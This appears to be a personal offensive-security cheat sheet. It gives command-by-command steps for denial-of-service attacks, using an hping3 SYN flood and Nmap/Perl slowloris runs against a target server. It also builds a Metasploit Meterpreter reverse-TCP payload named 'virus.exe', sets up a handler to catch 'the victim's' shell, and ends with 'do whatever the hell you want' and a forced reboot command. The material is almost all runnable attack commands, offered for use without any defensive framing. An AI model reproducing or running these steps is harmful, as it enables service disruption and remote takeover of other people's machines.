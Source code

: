 ---------------------------------------------------------------------	

## DOS ATTACK ##
	Tools:	hping3

	* Hping3
		~hping3 -i <interval in microseconds> -S (sinflag) p <port> <server>
		~hping3 -i u100 -S p 80 192.168.1.1

	* Perl script
		0) Check the DoS category scripts in the Nmap website
			nmap.org/nsedoc/categories/dos.html
		1) Run an Nmap scan on the target server
			~nmap --script http-slowloris --max-parallelism 400 192.168.1.1 -vv
		2) Make the file executable
			~chmod +x slowloris.pl
		3) Run the Perl script
			~./slowloris.pl -dns 192.168.1.1 -port 80 -num 500

---------------------------------------------------------------------	

## REVERSE SHELL ##
	Tools: 	metasploit
			ncat

	* Using Metasploit
		First Terminal:
		0) Use a database for metasploit
			~service postgresql start
		1) Start metasploit
			~service metasploit start
		2) Open metasploit console
			~msfconsole
		OBS.: Update it as much as you can
			~msfupdate
		3) Search for Reverse Shells
			~search -h
			~search name:meterpreter

		Second Terminal:
		1) Create the chosen payload
			~msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.102 x > /root/Desktop/virus.exe
			
		First Terminal:
		1) Handle the selected payload
			~use exploit/multi/handler
			~set payload windows/meterpreter/reverse_tcp
		2) View its options
			~show options
		3) Set the host IP Address
			~set LHOST 192.168.1.102
		4) Start the payload handler
			~exploit
		Once the executable is opened...
		5) Get into the victim's shell
			~shell
		6) Do whatever the hell you want!
			~shutdown /r /t 0
			